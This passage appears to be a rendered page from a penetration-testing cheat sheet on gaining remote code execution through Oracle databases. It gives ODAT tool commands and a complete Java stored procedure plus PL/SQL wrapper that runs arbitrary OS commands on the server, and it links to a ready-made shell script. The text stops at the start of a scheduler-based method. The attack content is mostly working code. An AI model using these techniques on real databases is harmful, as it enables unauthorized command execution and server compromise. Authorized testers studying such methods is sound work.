 <h3>Install ODAT</h3>

```bash
git clone https://github.com/quentinhardy/odat.git
cd odat
./odat.py #It shouldn't be problems in Kali
```

<h3>Execute Code via Java Stored Procedure</h3>

```bash
./odat.py java -s <IP> -U <username> -P <password> -d <SID> --exec COMMAND
```

<h3>RCE: Java Store Procedure</h3>

So, imagine that you have the administrator account information. In this case, a very popular way to execute your command on the server is to write a ‘java stored’ procedure. This is done in three stages. First, create a Java class called ‘oraexec’. To do this, connect via ‘sqlplus’ terminal and write:

```sql
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
  public class oraexec
  {
    public static void execCommand(String command) throws IOException
    {
      Runtime.getRuntime().exec(command);
    }
  }
/
```

Next, write a PL/SQL wrapper for this class:

```sql
create or replace procedure javacmd(p_command varchar2) as language java name 'oraexec.execCommand(java.lang.String)'; /
```

That’s it. Now, to execute a command, all you need is just to send the following query:

```sql
exec javacmd('command');
```

Note that when using the above procedure, we cannot see the results of executed command, however, you can redirect the output to a file and read it. You can find the full code of the shell that allows to read and write files:

[raptor_oraexec.sql](https://secybr.com/assets/file/raptor_oraexec.sql)

However, there is a [more sophisticated script](https://goo.gl/EuwPRU) that handles the command output, but it has a larger size [here](https://oracle-base.com/articles/8i/shell-commands-from-plsql).

<h3>RCE: Scheduler</h3>

The next method, which will help us if there is no Java virtual machine, is to use ‘dbmsscheduler’, the built-in task scheduler of Oracle. To use it, you must have the privilege `CREATE EXTERNAL JOB`. Here’s a code sample that implements the entry of ‘0wned’ string into a text file in the root of the C: drive:
